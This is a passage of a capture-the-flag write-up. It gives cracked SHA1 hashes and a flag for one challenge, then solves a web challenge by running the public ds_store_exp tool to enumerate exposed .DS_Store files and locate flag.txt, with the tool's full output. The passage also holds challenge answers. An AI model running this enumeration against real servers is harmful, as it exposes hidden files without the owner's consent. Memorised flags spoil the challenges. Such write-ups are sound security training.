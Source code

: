 ```

# 26d33687bdb491480087ce1096c80329aaacbec7 SHA1 puppy 
# 1C3BCF656687CD31A3B486F6D5936C4B76A5D749 SHA1 p1zza 
# 11A3E059C6F9C223CE20EF98290F0109F10B2AC6 SHA1 anime 
# 6301CB033554BF0E424F7862EFCC9D644DF8678D SHA1 torus 
# 95d79f53b52da1408cc79d83f445224a58355b13 SHA1 kitty 
```

Concatenate the strings and you get the flag.

flag: `puppyp1zzaanimetoruskitty`

# HabbyDabby's Secret Stash - 650pts

## Problem

HabbyDabby's hidden some stuff away on his web server that he created and wrote from scratch on his Mac. See if you can find out what he's hidden and where he's hidden it!

http://a.goodsecurity.fail/

by copperstick6

## Solution

The challenge description mentions that the website is made using a Mac; therefore, we can look for `.DS_Store` files. I used [this project](https://github.com/lijiejie/ds_store_exp) on github to reveal the path for the flag:

```
❯ python ds_store_exp.py http://a.goodsecurity.fail/\?file\=.DS_Store
[+] http://a.goodsecurity.fail/?file=.DS_Store
[+] http://a.goodsecurity.fail/?file=a
[+] http://a.goodsecurity.fail/?file=e/.DS_Store
 [+] http://a.goodsecurity.fail/?file=d
[+] http://a.goodsecurity.fail/?file=a/.DS_Store
[+] http://a.goodsecurity.fail/?file=index.html
[+] http://a.goodsecurity.fail/?file=d/.DS_Store
 [+] http://a.goodsecurity.fail/?file=index.html/.DS_Store
[+] http://a.goodsecurity.fail/?file=c
[+] http://a.goodsecurity.fail/?file=e
[+] http://a.goodsecurity.fail/?file=c/.DS_Store
[+] http://a.goodsecurity.fail/?file=b
[+] http://a.goodsecurity.fail/?file=b/.DS_Store
[+] http://a.goodsecurity.fail/?file=e/a/.DS_Store
[+] http://a.goodsecurity.fail/?file=e/c
[+] http://a.goodsecurity.fail/?file=e/b/.DS_Store
 [+] http://a.goodsecurity.fail/?file=e/b
 [+] http://a.goodsecurity.fail/?file=e/c/.DS_Store
[+] http://a.goodsecurity.fail/?file=e/e
[+] http://a.goodsecurity.fail/?file=e/a
[+] http://a.goodsecurity.fail/?file=e/e/.DS_Store
[+] http://a.goodsecurity.fail/?file=e/d
[+] http://a.goodsecurity.fail/?file=e/d/.DS_Store
[+] http://a.goodsecurity.fail/?file=e/d/b
[+] http://a.goodsecurity.fail/?file=e/d/b/.DS_Store
[+] http://a.goodsecurity.fail/?file=e/d/e
[+] http://a.goodsecurity.fail/?file=e/d/e/.DS_Store
[+] http://a.goodsecurity.fail/?file=e/d/e/flag.txt/.DS_Store
 [+] http://a.goodsecurity.fail/?file=e/d/e/flag.txt
```
